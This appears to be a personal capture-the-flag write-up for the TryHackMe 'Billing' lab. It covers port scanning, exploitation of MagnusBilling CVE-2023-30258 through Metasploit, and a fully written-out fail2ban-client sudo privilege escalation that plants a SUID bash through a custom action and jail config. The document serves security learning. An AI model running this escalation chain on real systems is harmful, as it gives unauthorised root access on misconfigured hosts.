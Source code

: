# Hack Log 5 - TryHackMe [Billing](https://tryhackme.com/room/billing)

📅 **Date:** 2025-06-02   
🔍 **Objective:** Obtain user and root flag.  
🎯 **Target:** TryHackMe Billing (Lab CTF)

---

## 🛠️ Actions Taken

-**Port & Service Enumeration**  
```
nmap -sV --script=http-enum 10.10.111.81
```
| Port | Service   |
|------|-----------|
| 22   | OpenSSH   |
| 80   | http      |
| 3036 | MySQL     |
| 5038 | Asterisk  |

→ Upon visiting http://10.10.111.81:80, found that Magnus Billing was running.  
→ It is an open-source VoIP billing platform designed to manage and automate billing for Asterisk-based telephony systems.  



-**Magnus Billing Remote Code Execution Discovery**  
→ Researched the web and found that Magnus Billing is vulnerable to remote code execution (CVE-2023-30258).  
→ There was an exploit entry present in Metasploit for the CVE.  

-**Exploitation**  
→ Executed the exploit and obtained a meterpreter shell as user "asterisk".   
→ Found user flag in "/home/magnus" directory.  

-**Privilege Escalation**  
→ Running "sudo -l" revealed that the user can run **file2ban-client** as sudo.  
→ Fail2ban is a security tool that monitors log files for suspicious activity and blocks IP addresses after repeated failed login attempts. It helps protect servers from brute-force attacks by automatically adding firewall rules.    
→ Upon researching discovered an approach to customize a config in the config directory of fail2ban and place code in it that is to be executed with root permissions. (https://juggernaut-sec.com/fail2ban-lpe/).  
→ Wasn't able to customize the config because the current user only had read-access to "/etc/fail2ban".  
→ Alternatively, found the way to copy the configuration directory to different location and then refer to the newly copied configuration directory.  
    - Copying the configuration directory.  
      ```
      rsync -av /etc/fail2ban/ /tmp/fail2ban/  
      ```  
      
    - Referring to the newly copied configuration directory.  
      ```
      sudo fail2ban-client -c /tmp/fail2ban -v restart
      ```  
→ Referring to the approach mentioned above wrote my own config which executes a script. which copies "/bin/bash" to "/tmp/bash" and turns it into SUID binary.  
    - Creating script /tmp/script  
    ``` 
    #!/bin/sh  
    cp /bin/bash /tmp/bash  
    chmod 755 /tmp/bash  
    chmod u+s /tmp/bash  
    ```  
    - Making the script executable  
    ```
    chmod +x /tmp/script  
    ```  
    - Creating a custom Fail2Ban action file named "custom-start-command.conf"    
    ```  
    cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF  
    [Definition]  
    actionstart = /tmp/script  
    EOF    
    ```  
    - Appending a new custom jail configuration to the "jail.local" file in "/tmp/fail2ban" directory.    
    ```  
    cat >> /tmp/fail2ban/jail.local <<EOF
    [my-custom-jail]
    enabled = true
    action = custom-start-command
    EOF  
    ```  
    - Creating a custom Fail2Ban filter file with no actual filtering logic inside.  
    ```  
    cat > /tmp/fail2ban/filter.d/my-custom-jail.conf <<EOF  
    [Definition]  
    EOF  
    ```  
    - Restarting fail2ban using the custom configuration directory.  
    ```  
    sudo fail2ban-client -c /tmp/fail2ban/ -v restart  
    ```  
  → Succesfully obtained the root shell and subsequently the root flag.  


## 🔍 Key Findings  

- CVE-2023-30258, Magnus Billing Remote Code Execution.  
- Sudo using fail2ban-client.  


## 📚 What I Learned  

- CVE-2023-30258 is a critical command injection vulnerability affecting MagnusBilling versions 6.x and 7.x.  
- This flaw allows unauthenticated remote attackers to execute arbitrary operating system commands via specially crafted HTTP requests.  
- Using fail2ban for privilege escalation.  
  - Following resources were very helpful.
    - https://0xb0b.gitbook.io/writeups/tryhackme/2025/billing
    - https://juggernaut-sec.com/fail2ban-lpe/
    
      
    
 




